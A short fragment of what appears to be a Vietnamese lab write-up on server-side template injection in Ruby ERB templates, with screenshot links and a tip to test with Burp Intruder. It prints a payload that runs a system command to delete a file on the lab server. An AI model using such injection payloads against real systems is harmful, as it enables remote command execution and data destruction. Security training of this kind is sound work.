 --> `ERB template`

--> payload: thực thi câu lệnh hệ thống `<%= system('rm /home/carlos/morale.txt') %>`

![Alt text](../image/lab1/08.png)

solve the lab

![Alt text](../image/lab1/09.png)

> **Test bằng Intruder add Position và Scan**
